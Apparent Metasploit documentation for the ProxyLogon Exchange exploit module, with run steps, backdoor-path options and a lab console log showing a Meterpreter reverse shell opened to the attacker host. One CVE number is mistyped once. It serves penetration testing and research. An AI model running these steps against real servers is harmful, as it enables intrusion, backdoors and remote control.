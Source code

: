 ## Vulnerable Application

CVE-2021-28855 is a pre-authentication SSRF (Server Side Request Forgery) which allows an attacker to
bypass authentication by sending specially crafted HTTP requests. This vulnerability is part of an attack
chain used to perform an RCE (Remote Code Execution).

CVE-2021-27065 is a post-auth arbitrary-file-write vulnerability to get code execution and the second part
of ProxyLogon attack chain.

This vulnerability affects (Exchange 2013 Versions < 15.00.1497.012, Exchange 2016 CU18 < 15.01.2106.013,
Exchange 2016 CU19 < 15.01.2176.009, Exchange 2019 CU7 < 15.02.0721.013, Exchange 2019 CU8 < 15.02.0792.010).

### Introduction

This module exploit a vulnerability on Microsoft Exchange Server that allows an attacker bypassing the
authentication, impersonating as the admin (CVE-2021-26855) and write arbitrary file (CVE-2021-27065) to
get the RCE (Remote Code Execution).

By taking advantage of this vulnerability, you can execute arbitrary commands on the remote Microsoft
Exchange Server.

All components are vulnerable by default.

## Verification Steps

1. Start msfconsole
2. Do: `use exploit/windows/http/exchange_proxylogon_rce`
3. Do: `set RHOSTS [IP]`
4. Do: `set EMAIL [EMAIL ADDRESS]`
5. Do: `run`

## Options

### EMAIL

A known email address for this organization.

### METHOD

HTTP Method to use for the check (only). Default: POST

### UseAlternatePath

Use the IIS root dir as alternate path. Default: false

## Advanced Options

### ExchangeBasePath

The base path where exchange is installed. Default: C:\Program Files\Microsoft\Exchange Server\V15

### ExchangeWritePath

The path where you want to write the backdoor. Default: owa\auth

You can for example, define to: ecp\auth

### IISBasePath

The base path where IIS wwwroot directory is. Default: C:\inetpub\wwwroot

### IISWritePath

The path where you want to write the backdoor. Default: aspnet_client

### MapiClientApp

This is MAPI client version sent in the request.

### MaxWaitLoop

Max counter loop to wait for OAB Virtual Dir reset. Default: 30

## Known issues

1. With `cmd/windows/adduser` payload, you may need to change the password because the default password does may
not meet Microsoft Windows complexity requirements.
2. Depending on the payload used, two `cmd.exe` processes remain alive on the server. If this is the case, you cannot
make another attempt if they are not killed.

## Scenarios

```
msf6 exploit(windows/http/exchange_proxylogon_rce) > options 

Module options (exploit/windows/http/exchange_proxylogon_rce):

   Name              Current Setting           Required  Description
   ----              ---------------           --------  -----------
   EMAIL             gaston.lagaffe@pwned.lab  yes       A known email address for this organization
   METHOD            POST                      yes       HTTP Method to use for the check (Accepted: GET, POST)
   Proxies                                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS            172.20.2.112              yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT             443                       yes       The target port (TCP)
   SRVHOST           0.0.0.0                   yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT           8080                      yes       The local port to listen on.
   SSL               true                      no        Negotiate SSL/TLS for outgoing connections
   SSLCert                                     no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                                     no        The URI to use for this exploit (default is random)
   UseAlternatePath  false                     yes       Use the IIS root dir as alternate path
   VHOST                                       no        HTTP server virtual host


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     172.20.2.12      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows Powershell


msf6 exploit(windows/http/exchange_proxylogon_rce) > run

[*] Started reverse TCP handler on 172.20.2.12:4444 
[*] Executing automatic check (disable AutoCheck to override)
[*] Using auxiliary/scanner/http/exchange_proxylogon as check
[+] https://172.20.2.112:443 - The target is vulnerable to CVE-2021-26855.
[*] Scanned 1 of 1 hosts (100% complete)
[+] The target is vulnerable.
[*] https://172.20.2.112:443 - Attempt to exploit for CVE-2021-26855
[*] Internal server name (EX02)
[*] https://172.20.2.112:443 - Sending autodiscover request
[*] Server: c7f46eae-bac1-49e7-8502-afe90609ea7f@pwned.lab
[*] LegacyDN: /o=Pwned Exch2k13-HA/ou=Exchange Administrative Group (FYDIBOHF23SPDLT)/cn=Recipients/cn=683c605c88c14fcca1f5e74d0d136461-Gaston
[*] https://172.20.2.112:443 - Sending mapi request
[*] SID: S-1-5-21-3876225949-3666446388-246247518-1156 (gaston.lagaffe@pwned.lab)
[*] https://172.20.2.112:443 - Sending ProxyLogon request
[*] Try to get a good msExchCanary (by patching user SID method)
[*] ASP.NET_SessionId: 3ae8f52c-0bf6-4162-9c0b-0109a14e3e4d
[*] msExchEcpCanary: lKd1HMX_BUeIdxUPUn1DSb-NkT8e7tgI4QztptiaeDm3UQXooMuAWr7VCMvS2PD48epSe1wUS50.
[*] OAB id: ef3febbd-6cdf-4dd4-8dbb-f4376d8cc591 (OAB (Default Web Site))
[*] https://172.20.2.112:443 - Attempt to exploit for CVE-2021-27065
[*] Prepare the payload on the remote target
[*] Write the payload on the remote target
[!] Wait a lot (0)
[+] Yeeting windows/x64/meterpreter/reverse_tcp payload at 172.20.2.112:443
[*] Sending stage (200262 bytes) to 172.20.2.112
[*] Meterpreter session 17 opened (172.20.2.12:4444 -> 172.20.2.112:25626) at 2021-03-21 21:08:23 +0400
[*] Sending stage (200262 bytes) to 172.20.2.112
[*] Meterpreter session 18 opened (172.20.2.12:4444 -> 172.20.2.112:25627) at 2021-03-21 21:08:23 +0400
[+] Deleted C:\Program Files\Microsoft\Exchange Server\V15\FrontEnd\HttpProxy\owa\auth\mmjhfIC.aspx

meterpreter > 
```

## References

1. <https://proxylogon.com/>
2. <http://aka.ms/exchangevulns>
3. <https://www.praetorian.com/blog/reproducing-proxylogon-exploit>
4. <https://testbnull.medium.com/ph%C3%A2n-t%C3%ADch-l%E1%BB%97-h%E1%BB%95ng-proxylogon-mail-exchange-rce-s%E1%BB%B1-k%E1%BA%BFt-h%E1%BB%A3p-ho%C3%A0n-h%E1%BA%A3o-cve-2021-26855-37f4b6e06265>

